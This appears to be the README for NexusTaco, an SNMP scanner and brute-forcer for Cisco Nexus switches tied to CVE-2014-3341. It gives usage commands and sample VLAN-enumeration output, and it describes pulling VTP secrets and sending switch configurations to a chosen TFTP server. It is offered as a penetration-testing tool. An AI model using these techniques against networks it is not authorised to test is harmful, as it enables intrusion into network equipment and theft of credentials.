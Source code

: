 CVE ID: CVE-2014-3341

Cisco Bug ID: CSCup85616

Strings.txt Taken from https://fuzzdb.googlecode.com/svn-history/r127/trunk/wordlists-misc/wordlist-common-snmp-community-strings.txt

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family).

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:

*Finds Nexus switches specifically since they seem to reply to bogus community strings

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground)

**Files and folders

**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)

**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.

TODO:

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)

*Show logged in users

*Disable snmp traps

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).

*Use getopt …..

*Router reload over snmp just for evilness.

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100

Thanks nmap for the ip list

Finding vulnerable switches

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured

Host: x.x.x.x has VlanID 2 Configured

Host: x.x.x.x has VlanID 3 Configured

Host: x.x.x.x has VlanID 4 Configured

Host: x.x.x.x has VlanID 5 Configured

Host: x.x.x.x has VlanID 6 Configured

Host: x.x.x.x has VlanID 7 Configured

Host: x.x.x.x has VlanID 8 Configured

Host: x.x.x.x has VlanID 10 Configured

Host: x.x.x.x has VlanID 31 Configured

Host: x.x.x.x has VlanID 32 Configured

Host: x.x.x.x has VlanID 33 Configured

Host: x.x.x.x has VlanID 34 Configured

Host: x.x.x.x has VlanID 35 Configured

Host: x.x.x.x has VlanID 40 Configured

Host: x.x.x.x has VlanID 64 Configured

Host: x.x.x.x has VlanID 65 Configured

Host: x.x.x.x has VlanID 97 Configured

Host: x.x.x.x has VlanID 98 Configured

Host: x.x.x.x has VlanID 99 Configured

Host: x.x.x.x has VlanID 100 Configured

.....
